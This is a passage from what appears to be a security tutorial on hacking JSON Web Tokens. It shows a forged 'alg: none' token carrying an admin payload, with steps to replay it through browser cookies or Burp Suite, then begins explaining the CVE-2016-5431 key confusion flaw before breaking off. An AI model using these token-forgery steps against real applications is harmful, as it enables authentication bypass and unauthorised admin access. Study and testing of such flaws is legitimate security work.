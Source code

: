 Payload After Changes:

```js
{
    "user":"admin"
}
```

Now base64 encode `Header` and `Payload` and send the new token to the web application with empty `secret`.

New Token:

```js
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

For encoding we can use :

1. CyberChef
2. Burp Suite Decoder
3. Your Terminal

For encoding on Terminal just remove `-d` / `-D` let's see an example

```bash
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64
```

For sending Requests we can use:

1. Inspect Element > Go to cookies > replace the token with your new token.
2. Burp Suite Intercept or send the requests to repeater and play with the request.

So this is one simple way of hacking JWTs.

### Exploiting JWT

#### CVE-2016-5431 Key Confusion Vulnerability

##### RSA

The `RSA` is asymmetric and in assymetric we have 2 keys

```md
1. Public Keys (for verifying you need a public key coresponding to the private key used for the signature.)

2. Private Keys. (For signing the token you need a private key)
```

Library Function: `verify(clientToken, serverRSAPublicKey)`

##### HMAC

The `HMAC` uses the same secret for signing as well as verifying the token.

Library Function: `verify(clientToken, serverHMACSecretKey)`

##### The Vulnerability
